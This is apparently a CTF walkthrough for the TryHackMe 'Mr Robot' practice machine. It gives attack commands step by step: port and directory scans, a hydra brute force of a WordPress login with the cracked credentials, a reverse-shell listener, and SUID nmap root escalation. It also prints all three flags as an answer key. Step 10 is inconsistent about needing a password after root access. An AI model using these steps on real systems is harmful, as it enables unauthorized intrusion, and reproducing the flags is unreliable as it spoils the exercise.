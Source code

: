 ```yaml
---
title: "TryHackMe - Mr Robot CTF Walkthrough"
date: 2024-12-15
categories: [TryHackMe]
tags: [CTF, WordPress, Privilege Escalation, SUID, Reverse Shell]
image: assets/images/thm-cover/mr-robot-Cover.jpg
---
```


# TryHackMe - Mr. Robot CTF Walkthrough

---

## Step 1: Network Scanning
Conduct a network scan to identify open ports and running services on the target.

```bash
sleep33@THM:~$ nmap -v -sCV -oN nmap.txt <TARGET_IP> 
```

### Result:
- **Open Ports Found**:
  - Port 80: HTTP Service
  - Port 443: HTTPS Service
  - Port 22: SSH Service

---

## Step 2: Directory Enumeration
Perform directory enumeration using Gobuster to find hidden directories or files.

```bash
sleep33@THM:~$ gobuster dir -u http://<TARGET_IP>/ -w /path/to/wordlist.txt
```

### Result:
- **Discovered Directories**:
  - `/robots.txt`
  - `/fsocity.dic`
  - `/key-1-of-3.txt`

---

## Step 3: First Flag
Using the discovered `/robots.txt` file, locate and read the first flag.

```bash
sleep33@THM:~$ curl http://<TARGET_IP>/robots.txt
```

### Result:
Contents of `robots.txt`:
```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

```bash
sleep33@THM:~$ curl http://<TARGET_IP>/key-1-of-3.txt
```

**Flag 1:**
```
073403c8a58a1f80d943455fb30724b9
```

---

## Step 4: Exploring `fsocity.dic` File
Download and examine the `fsocity.dic` file, which contains a wordlist that may be useful for brute-forcing.

```bash
sleep33@THM:~$ wget http://<TARGET_IP>/fsocity.dic
```

### Result:
The file is a large wordlist containing potential usernames and passwords.

---

## Step 5: Brute-forcing WordPress Login
Attempt brute-forcing the WordPress login page using `fsocity.dic` as a wordlist to guess the username and password.

```bash
sleep33@THM:~$ hydra -L fsocity.dic -P fsocity.dic <TARGET_IP> http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"
```

### Credentials Found:
- **Username**: `elliot`
- **Password**: `ER28-0652`

---

## Step 6: Accessing WordPress and Uploading a Reverse Shell
Log in to the WordPress admin panel and upload a reverse shell to gain a foothold.

### Reverse Shell Code:
Use a PHP reverse shell script and configure it to connect back to your machine.

---

## Step 7: Gaining Shell Access
Trigger the reverse shell by accessing the uploaded file and listen on a port to catch the shell.

```bash
sleep33@THM:~$ nc -lvnp <PORT>
```

---

## Step 8: Privilege Escalation - SUID Binary
Find files with the SUID bit set to check for potential privilege escalation paths.

```bash
sleep33@THM:~$ find / -perm -4000 2>/dev/null
```

### SUID Binary Found:
- `nmap`

### Using Nmap in Interactive Mode to Gain Root Access
Launch Nmap in interactive mode and access a root shell.

```bash
sleep33@THM:~$ nmap --interactive
```

```bash
nmap> !sh
# whoami
root
```

---

## Step 9: Finding the Second Flag
With root access, locate the second flag.

```bash
sleep33@THM:~$ cat /root/key-2-of-3.txt
```

**Flag 2:**
```
822c73956184f694993bede3eb39f959
```

---

## Step 10: Locating the Third Flag
Search the home directory of the `robot` user for the final flag.

```bash
sleep33@THM:~$ cat /home/robot/key-3-of-3.txt
```

### Password Prompt:
You may encounter an encrypted flag, requiring the robot user’s password. You can check if `robot` has any passwords or if SSH keys are present to unlock this file.

**Flag 3:**
```
04787ddef27c3dee1ee161b21670b4e4
```

---

## Summary
In this walkthrough, we scanned the target, enumerated directories, used a dictionary attack to gain WordPress access, uploaded a reverse shell, escalated privileges using an SUID binary (`nmap`), and retrieved all flags. 

### Flags Summary:
- **Flag 1**: `073403c8a58a1f80d943455fb30724b9`
- **Flag 2**: `822c73956184f694993bede3eb39f959`
- **Flag 3**: `04787ddef27c3dee1ee161b21670b4e4`

---
